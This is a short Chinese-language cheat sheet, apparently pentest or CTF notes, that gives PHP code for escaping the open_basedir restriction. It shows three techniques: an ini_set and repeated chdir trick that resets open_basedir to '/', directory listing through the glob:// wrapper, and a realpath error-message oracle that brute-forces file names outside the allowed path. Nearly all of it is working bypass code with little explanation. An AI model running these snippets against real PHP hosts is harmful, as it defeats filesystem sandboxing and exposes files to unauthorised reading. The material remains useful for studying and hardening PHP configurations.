 





## ini_set与chdir 绕过open_basedir

```php
mkdir('img');
chdir('img');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');

```



## glob协议列根目录

```php
$it = new DirectoryIterator("glob:///*");
foreach ($it as $f){
    echo $f->__toString()." ";
}

```

## realpath列目录

realpath是php中一个将相对路径转化为绝对路径的方法，而如果开启了`open_basedir`的话，如果我们传入一个不存在的文件名，会返回false，但是如果我们传入一个不在`open_basedir`里的文件的话，他就会返回`file is not within the allowed path(s)`，所以这个时候就可以类似于报错盲注去爆出文件名了
这里有个小trick，利用windows下的通配符<和>去进行爆破可以快一点

```php
<?php
ini_set('open_basedir',dirname(__FILE__));
printf("open_basedir: %s<br/><br/>", ini_get('open_basedir'));
set_error_handler('isexist');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789-*/+_';
for ($i=0; $i<strlen($chars); $i++){
    $file = $dir.$chars[$i].'<<';
    realpath($file);
}
function isexist($errno, $errstr){
    $regex = '/File\((.*)\) is not within/';
    printf("errstr: %s <br/>",$errstr);
    preg_match($regex, $errstr, $mathes);
    if (isset($mathes[1])){
        printf("%s <br/><br/>", $mathes[1]);
    }
}
```
